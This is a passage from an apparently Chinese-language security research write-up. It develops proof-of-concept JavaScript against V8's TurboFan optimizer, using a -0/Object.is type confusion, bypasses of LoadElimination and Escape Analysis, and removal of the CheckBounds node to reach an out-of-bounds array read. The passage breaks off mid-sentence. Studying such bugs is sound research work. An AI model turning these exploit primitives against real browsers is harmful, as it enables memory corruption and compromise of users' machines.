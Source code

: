 折腾了相当长的时间，终于找到了绕过的方法，以下是修改后的 PoC，与之前相比，加了一行略微奇怪的 console.log 函数调用：

> 这个绕过方法是蒙出来的，把代码改复杂一点有时可以非常玄学的绕过某些优化。

```
function foo(trigger) `{`
    let obj = `{` a: -0 `}`; // Escape Analysis 特供1
    let wrongNum = (trigger ? -0 : 0) - 0;
    console.log(obj.a = -0 );     // 绕过 LoadElimination 特供
    let idx = Object.is(wrongNum, obj.a);
    return idx + 1;

`}`
// Escape Analysis 特供2
for(let a = 0; a &lt; 2; a++)
    foo(false);
%OptimizeFunctionOnNextCall(foo);
console.log(foo(true)); // expected: true, got: false
```

因此我们便可以绕过LoadElimination：

[![](https://p5.ssl.qhimg.com/t01c7fa8cbc495655ef.png)](https://p5.ssl.qhimg.com/t01c7fa8cbc495655ef.png)

在 EscapeAnalysisPhase 完成之后，彻底完成所有的基础工作：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01fd874cf5865655e3.png)

之后笔者稍微修改了一下代码，添加上数组访问操作，看看能否成功优化 checkbounds 结点（原先的代码只是获取索引值）：

```
function foo(trigger) `{`
    let arr = [0.1, 0.2, 0.3, 0.4];
    let obj = `{` a: -0 `}`; // Escape Analysis 特供1
    let wrongNum = (trigger ? -0 : 0) - 0;
    console.log(obj.a);     // 绕过 LoadElimination 的特供语句
    let idx = Object.is(wrongNum, obj.a);
    return arr[idx * 1337]; // 试着越界
`}`
// Escape Analysis 特供2
for(let a = 0; a &lt; 2; a++)
    foo(false);
%OptimizeFunctionOnNextCall(foo);
console.log(foo(true));
```

观察 turbolizer，可以发现 checkbounds 结点被成功优化：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0135fe828517b8ee2a.png)

编译生成的汇编代码貌似也没什么问题：
